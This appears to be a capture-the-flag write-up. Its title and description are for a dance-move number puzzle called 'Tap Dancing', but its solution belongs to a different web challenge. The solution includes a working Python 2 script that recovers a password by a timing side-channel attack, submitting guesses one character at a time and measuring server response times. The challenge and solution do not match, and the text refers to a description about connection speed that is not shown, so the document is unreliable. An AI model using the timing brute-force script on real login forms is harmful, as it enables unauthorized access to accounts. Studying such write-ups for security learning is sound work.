 Tap Dancing
===========

**Points:** 25

**Description:** 
My friend is trying to teach me to dance, but I am not rhythmically
coordinated! They sent me a list of dance moves but they're all numbers! Can
you help me figure out what they mean so I can learn the dance?
NOTE: Flag is not in flag format.

-------------------------------------------------------------------------------

Solution
--------

It starts with a stupid guess. The description mentions connection speed, but
if testing with a random character in the submit form the site returns
“Incorrect Password” pretty quickly, really. So let's put in something longer.
“asdasdasd” also responds almost instantly. But entering the string “hsctf{”
creates a couple seconds of delay.

Hmm. It seems that the server is analyzing the passwords in such a way that
queries beginning with more of the flag take longer than queries with less of
the flag. Perhaps the backend is slowly comparing one character at a time, and
returning as soon as a mismatch is found. Or something to that effect&#8212;it
doesn't really matter.

This problem sort of reminded me of “A Simple Question” from picoCTF 2018, so I
reused some of my Python code from that question. My solve script is attached
below.

```python
#!/usr/bin/python2
# imyxh

import mechanize
import time

# init
br = mechanize.Browser()
br.open('https://networked-password.web.chal.hsctf.com/')
payl = 'hsctf{'

while 1:  # one iteration per char
    c = 48  # initial ASCII code

    while 1:  # guess char

        br.select_form(nr=0)
        attempt = payl + chr(c)
        br.form['password'] = attempt
        t0 = time.time()
        br.submit()
        resp = br.response().get_data()
        print('attempted char ' + chr(c) + ' with response time '
              + str(time.time()-t0))

        if c == 125:
            resp = raw_input('select character: ')
            payl += resp
            break

        c += 1

    print("CAUGHT: " + payl)
```

Yes, I know. It's Python 2. Blame the mechanize developers for not releasing a
Python 3 version of their library. But the essentials of that script are
summarized in a few steps:

1. define a payload variable `payl` that holds the characters of the flag that
   we know;
2. append ASCII characters to the payload one at a time, submitting the form
   and measuring the response time;
3. display the response times for each character to the console and allow the
   user to select a guess;
4. add the user's guess to the payload and repeat from step 2.

By the time we guess the `}` character, we'll have the entire flag. I definitely
could've made that script a lot cooler by automatically selecting a character
after it produced an outlying response time, but I was lazy and perfectly happy
with pushing buttons on my terminal.

